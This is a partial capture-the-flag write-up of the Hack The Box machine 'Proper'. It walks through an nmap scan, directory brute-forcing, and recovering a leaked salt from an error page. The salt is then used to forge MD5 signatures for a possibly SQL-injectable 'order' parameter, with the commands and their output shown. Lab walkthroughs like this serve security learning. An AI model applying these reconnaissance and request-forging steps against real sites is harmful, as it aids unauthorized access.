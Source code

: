 ## ----------------->> Proper <<----------------

// We start with nmap scan

    $nmap -sV -A -Pn -T4 10.10.10.231 -p-
----------

    Nmap scan report for 10.10.10.231
    Host is up (0.23s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: OS Tidy Inc.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// We can see only port 80(http) open, Lets check it out

![Image 1]()

// Its seems like some company products website,

// Move on to search for interesting directories or files with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.231/ -t 100 -w /usr/share/dirb/wordlists/big.txt 
--------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 20469

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.231/_21-08-24_09-17-58.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-08-24_09-17-58.log

    Target: http://10.10.10.231/

    [09:17:58] Starting: 
    [09:18:07] 301 -  150B  - /assets  ->  http://10.10.10.231/assets/
    [09:18:26] 301 -  152B  - /licenses  ->  http://10.10.10.231/licenses/

    Task Completed

// We found two directories /assets/ its Forbbiden but /licenses/ get us to login page

![Image 4]()

// guessing and sql injection syntaxes didnt work...

// Moving on to BurpSuite and open the first page (http://10.10.10.231/index.html) With Reapeter

// The response shows us that there another directory that load with the /index.html

![Image 2]()

    /products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b
    
// Navigating to there, shows us all the company products

![Image 3]()

// Also 'order=id+desc' looks like SQL query i will change desc to asc(read more abot [desc&asc](https://www.guru99.com/order-by-desc-and-asc.html))

![Image 5]()

// We got Forbidden page, Moving on...

// When removing the md5 hash from the browser we got error for parameter missing

![Image 6]()

// Lets try to remove 'h' parameter

// Now we get the same error but this time we get also with crash details

![Image 7]()

// We got the secure-salt !

    'SECURE_PARAM_SALT','hie0shah6ooNoim'

// Lets check the hash with online hash-analyzer [tool](https://www.tunnelsup.com/hash-analyzer/)

![Image 8]()

// its md5 hash, we need to encrypt the salt now, we can do that with md5sum tool or online [tool](https://www.md5online.org/md5-encrypt.html)

    The MD5 hash for hie0shah6ooNoim is : 9094e65be4a9dc27cd4af70674a99c64

// And check the response status with curl

    $ curl -I http://10.10.10.231/products-ajax.php?order=id+asc&h='9094e65be4a9dc27cd4af70674a99c64'
-----

    HTTP/1.1 500 Internal Server Error
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 19:03:47 GMT

// we got status 500 (Internal Error)

// After some tries it work when i encrypted the salt and add 'id acs' - "hie0shah6ooNoimid asc"

    $ echo -n "hie0shah6ooNoimid asc" | md5sum
    181345bd7fce37aad011ea65a41b60c8  -

// And lets check it

    $ curl -I 'http://10.10.10.231/products-ajax.php?order=id+asc&h=181345bd7fce37aad011ea65a41b60c8'
-----

    HTTP/1.1 200 OK
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 18:49:52 GMT

// It worked !



http://10.10.10.231/products-ajax.php?order=id+desc&h=9094e65be4a9dc27cd4af70674a99c64

The MD5 hash for hie0shah6ooNoimid asc is : 181345bd7fce37aad011ea65a41b60c8

